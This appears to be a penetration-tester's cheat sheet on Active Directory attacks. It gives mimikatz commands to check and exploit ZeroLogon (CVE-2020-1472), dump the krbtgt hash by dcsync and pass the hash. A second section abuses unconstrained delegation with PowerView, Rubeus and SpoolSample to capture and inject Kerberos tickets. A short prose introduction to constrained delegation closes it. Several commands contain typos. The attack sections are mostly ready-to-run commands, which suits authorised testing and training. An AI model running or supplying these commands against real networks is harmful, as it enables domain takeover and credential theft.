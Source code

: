 # ZeroLogon CVE-2020-1472

Zerologon, tracked as CVE-2020-1472, is an authentication bypass vulnerability in the Netlogon Remote Protocol (MS-NRPC), a remote procedure call (RPC) interface that Windows uses to authenticate users and computers on domain-based networks. It was designed for specific tasks such as maintaining relationships between members of domains and the domain controller (DC), or between multiple domain controllers across one or multiple domains and replicating the domain controller database.

```bash
cd mimikatz-master\x64
# See if it is vulnerable
lsadump::zerologon /target:dc.pentesting.local /account:dc$

# Exploit it
lsadump::zerologon /target:dc.pentesting.local /account:dc$ /exploit

# dcsync
lsadump::dcsync /dc:dc.pentesting.local /authuser:dc$ /authdomain:exploit.local /authpassword:"" /authntlm /user:krbtgt 

# Pass the hash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:student5 /domain: /ntlm: /run:powershell.exe"'
```

- `/target` is the full fqdn of the target dc
- `/account` variable is the name of the dc followed by $

# Unconstrained delegation

```bash
powerhsell -ep bypass
import-module .\Powervien.ps1
Get-domainComputer -uncontrained

.\Rubeus.exe monitor /interval:1
# another PS
.\SpoolSample.exe dc.pnte.local studen.pente.local
.\Rubeus.exe ptt /ticket:dedede
.\Rubeus.exe triage
.\Rubeus.exe klist

import-module .\Invoke-Mimikatz.ps1
# then do dcsync attack
# pass the hash after getting the ntlm
```

# Contrained delegation


Kerberos constrained delegation was introduced in Windows Server 2003 to provide a safer form of delegation that could be used by services. 
When it is configured, constrained delegation restricts the services to which the specified server can act on the behalf of a user. 
This requires domain administrator privileges to configure a domain account for a service and is restricts the account to a single domain. 
In today's enterprise, front-end services are not designed to be limited to integration with only services in their domain.
